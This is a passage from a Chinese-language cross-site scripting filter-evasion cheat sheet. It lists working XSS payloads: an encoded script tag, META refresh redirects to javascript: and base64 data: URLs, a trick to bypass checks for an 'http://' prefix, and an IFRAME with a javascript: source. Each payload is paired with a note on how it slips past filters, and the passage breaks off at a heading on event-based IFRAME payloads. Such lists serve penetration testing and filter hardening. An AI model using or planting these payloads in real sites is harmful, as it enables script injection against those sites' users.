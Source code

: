 ```
¼script¾alert(¢XSS¢)¼/script¾

```

* * *

META
----

关于meta refresh比较奇怪的是他并不是发送一个刷新请求头。因此他通常用于不需要引用url的攻击。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

```

* * *

META using data
---------------

URL指令方案，它是非常的不错因为赢没有明显的SCRIPT单词或是JavaScript 指令出现，因为它使用了base64 编码。请查看[RFC 2397](https://tools.ietf.org/html/rfc2397)了解更多信息或是编码你的代码。你也可以使用[XSS calculator](http://ha.ckers.org/xsscalc.html)去编码你的html或是javascript代码到base64位。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

```

* * *

额外url参数的META
------------

如果当前网页试图去查找URL参数是否以"http://" 开始，你可以用下列技术绕过（被 Moritz Naumann提出）

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">

```

* * *

IFRAME
------

如果一个iframes被允许，那么同时可能会存在大量其他xss问题

```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

```

* * *

IFRAME 基于事件
-----------
